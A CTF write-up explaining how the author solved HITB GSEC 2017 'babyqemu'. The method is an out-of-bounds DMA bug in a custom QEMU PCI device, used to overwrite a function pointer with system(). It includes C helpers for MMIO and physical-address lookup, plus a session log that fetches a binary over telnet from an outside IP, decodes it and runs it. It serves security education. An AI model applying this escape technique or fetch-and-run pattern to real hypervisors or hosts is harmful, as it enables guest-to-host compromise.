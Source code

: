 ```yaml
---
layout: post
title: "HITB GSEC 2017: babyqemu"
categories: writeups hitb2017
tags: exploitation
author: saelo
---
```


This is a short writeup explaining how I solved the "babyqemu" challenge of
HITB GSEC 2017. I greatly enjoyed solving the challenge since I had never
before written any kind of hypervisor escape.

## Overview

For this challenge, players were given [a tar.gz](https://github.com/kitctf/writeups/blob/master/hitb-gsec-2017/babyqemu/babyqemu.tar.gz) file containing the
following files:


    -rwxr-xr-x    1 sam  staff   281B Jul 11 15:38 launch.sh
    drwxr-xr-x   59 sam  staff   2.0K Jul 11 13:36 pc-bios
    -rwxr-xr-x    1 sam  staff    38M Jul 11 13:32 qemu-system-x86_64
    -rw-r--r--    1 sam  staff   3.7M Jul 11 13:32 rootfs.cpio
    -rwxr-xr-x    1 sam  staff   7.0M Jul 11 13:35 vmlinuz-4.8.0-52-generic

The launch.sh script contains the following:

{% highlight bash %}
#!/bin/sh
./qemu-system-x86_64 \
-initrd ./rootfs.cpio \
-kernel ./vmlinuz-4.8.0-52-generic \
-append 'console=ttyS0 root=/dev/ram oops=panic panic=1' \
-enable-kvm \
-monitor /dev/null \
-m 64M --nographic  -L ./dependency/usr/local/share/qemu \
-L pc-bios \
-device hitb,id=vda
{% endhighlight %}

Note the last line, in which a custom `hitb` device is made available for the
guest operating system. It seems our goal is to exploit the emulation code for
this device and gain code execution inside the qemu process (running the
`qemu-system-x86_64` executable). The fact that we can simply login as root on
the provided machine (and remotely) without a password supports this theory.

## Reversing the device driver

Fortunately, the provided `qemu-system-x86_64` was not stripped (and even
contained debug symbols, giving us structure layouts) so we have all the
function names.  Loading the `qemu-system-x86_64` into IDA, we can filter for
all functions containing the word `hitb` and are left with a fairly short list
of relevant functions:

    Function name                        Segment Start            Length
    -------------                        ------- -----            ------
    do_qemu_init_pci_hitb_register_types .text   0000555555754BF0 00000011
    hitb_enc                             .text   00005555557D7DD0 0000001E
    pci_hitb_register_types              .text   00005555557D7DF0 0000000C
    hitb_class_init                      .text   00005555557D7E00 0000006F
    pci_hitb_uninit                      .text   00005555557D7E70 00000060
    hitb_instance_init                   .text   00005555557D7ED0 00000069
    hitb_obj_uint64                      .text   00005555557D7F40 00000011
    hitb_raise_irq                       .text   00005555557D7F60 0000002B
    hitb_fact_thread                     .text   00005555557D7F90 000000F9
    hitb_dma_timer                       .text   00005555557D8090 0000010F
    hitb_mmio_write                      .text   00005555557D81A0 000002A0
    hitb_mmio_read                       .text   00005555557D8440 00000148
    pci_hitb_realize                     .text   00005555557D8590 000000D0

The registered PCI device uses the following struct to store any state:

    00000000 HitbState       struc ; (sizeof=0x1BD0, align=0x10, copyof_1490)
    00000000 pdev            PCIDevice_0 ?
    000009F0 mmio            MemoryRegion_0 ?
    00000AF0 thread          QemuThread_0 ?
    00000AF8 thr_mutex       QemuMutex_0 ?
    00000B20 thr_cond        QemuCond_0 ?
    00000B50 stopping        db ?
    00000B58 fact            dd ?
    00000B5C status          dd ?
    00000B60 irq_status      dd ?
    00000B68 dma             dma_state ?
    00000B88 dma_timer       QEMUTimer_0 ?
    00000BB8 dma_buf         db 4096 dup(?)
    00001BB8 enc             dq ?                    ; offset
    00001BC0 dma_mask        dq ?
    00001BD0 HitbState       ends

    00000000 dma_state       struc ; (sizeof=0x20, align=0x8, copyof_1488)
    00000000 src             dq ?
    00000008 dst             dq ?
    00000010 cnt             dq ?
    00000018 cmd             dq ?
    00000020 dma_state       ends

Reversing the code a bit, we see that:

* The code registers a custom PCI device names 'hitb' and allocates an [I/O
  memory](https://en.wikipedia.org/wiki/Memory-mapped_I/O) region for it. With
  memory mapped I/O, the guest can read and write device "registers" simply by
  reading from and writing to specific *physical* addresses.

* The registered device has handler functions (`hitb_mmio_write` and
  `hitb_mmio_read`) for read and write accesses from the guest to the allocated
  memory region. These handlers will be called everytime the guest operating
  systems accesses a physical address inside the range allocated for the PCI
  device.

* The device supports a custom DMA mechanism, allowing the guest operating
  system to read and write data into a fixed-sized buffer (`dma_buf`) inside of
  the device structure

The DMA buffer can be written to in the following way:

1. The guest writes the physical address of the source buffer to the `dma.src`
   register (by writing to offset 128 in the iomem region)
2. The guest writes the host buffer offset into the `dma.dst` register (offset 136)
3. The guest writes the number of bytes to copy into the `dma.cnt` register (offset 144)
4. The guest writes the constant 1 into the `dma.cmd` register (offset 152)

This will schedule the execution of a separate function which essentially
performs a memcpy from the given guest buffer into the host buffer.

Reading back the content of the DMA buffer works essentially the same, except
that src and dst need to be exchanged.

Looking at the code, we can see that no validation is performed on the given
offset into the DMA buffer. As such we can read to and write from arbitrary
memory adjacent to the hitb device instance (since the buffer is embedded into
the structure, and not just a pointer to it).

Conveniently, a function pointer (`enc`) is located right after the storage
buffer and will be called if the guest requests "encrypted" DMA transfers
(which simply XORs all data with 0x66). The first argument for that function
will be a pointer into the `dma_buf`, thus containing attacker controlled data.
Even more conveniently, the `system` function is linked into the qemu binary,
so we don't even need to leak the address of libc.

All we have left to do is implement I/O memory accesses from the guest.

## Memory mapped I/O from Linux usermode

Access to (almost) the whole physical memory is possible in Linux by open()ing
and mmap()ing `/dev/mem`. However, in our case there is a simpler way: the
device directory under /sys contains a pseudofile named "resource0", which
gives the user a "view" onto the physical memory used by the device.  In our
case, the full path for this device file is
`/sys/devices/pci0000:00/0000:00:04.0/resource0`.

With that, reading e.g. the register at offset 128 (the `dma.src` register) can
be performed with the following C code:

{% highlight c %}
void* iomem;

void iowrite(uint64_t offset, uint64_t value)
{
    *((uint64_t*)(iomem + offset)) = value;
}

int main()
{
    int fd = open("/sys/devices/pci0000:00/0000:00:04.0/resource0", O_RDWR | O_SYNC);

    iomem = mmap(0, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, fd, 0);

    iowrite(128, 0x1337);

    return 0;
}
{% endhighlight %}

To use the DMA mechanism, we also need the physical address of a buffer that we
can write to and read from. Fortunately, Linux provides the `/proc/$pid/pagemap`
[pseudofile](https://www.kernel.org/doc/Documentation/vm/pagemap.txt), which
gives us excactly this information. Using this pseudofile, we can obtain the
physical address for a virtual address in our process using the following C
code:

{% highlight c %}
uint64_t virt2phys(void* p)
{
    uint64_t virt = (uint64_t)p;

    // Assert page alignment
    assert((virt & 0xfff) == 0);

    int fd = open("/proc/self/pagemap", O_RDONLY);
    if (fd == -1)
        die("open");

    uint64_t offset = (virt / 0x1000) * 8;
    lseek(fd, offset, SEEK_SET);

    uint64_t phys;
    if (read(fd, &phys, 8 ) != 8)
        die("read");

    // Assert page present
    assert(phys & (1ULL << 63));

    phys = (phys & ((1ULL << 54) - 1)) * 0x1000;
    return phys;
}
{% endhighlight %}

With that we have everything to reach the vulnerable code inside the custom
qemu binary.

## Putting everything together

The exploit now does the following:

1. Use the out-of-bounds DMA access to read the value of the `enc` function
   pointer
2. Add the offset to the PLT stub for `system` to that pointer and write it
   back using the DMA bug again
3. Write the string `cat flag` into the DMA page. This will be the first
   argument to the `enc` function pointer
4. Perform an "encrypted" DMA transfer to call the function pointer

Here is the exploit in action:


    __        __   _                            _          _   _ ___ _____ ____
    \ \      / /__| | ___ ___  _ __ ___   ___  | |_ ___   | | | |_ _|_   _| __ )
     \ \ /\ / / _ \ |/ __/ _ \| '_ ` _ \ / _ \ | __/ _ \  | |_| || |  | | |  _ \
      \ V  V /  __/ | (_| (_) | | | | | |  __/ | || (_) | |  _  || |  | | | |_) |
       \_/\_/ \___|_|\___\___/|_| |_| |_|\___|  \__\___/  |_| |_|___| |_| |____/

    Welcome to HITB
    HITB login: root
    # telnet 128.199.51.139 5555 > pwn.b64
    # base64 -d pwn.b64 > pwn
    # chmod +x pwn
    # ./pwn
    iomem @ 0x7fec5fa96000
    DMA buffer (virt) @ 0x7fec5fa95000
    DMA buffer (phys) @ 0x20e7000
    binary @ 0x561d2185a000
    HITB{907825fdd6e748fb84850c11ce0bef8d}

The full exploit can be found [here](https://github.com/kitctf/writeups/blob/master/hitb-gsec-2017/babyqemu/pwn.c).
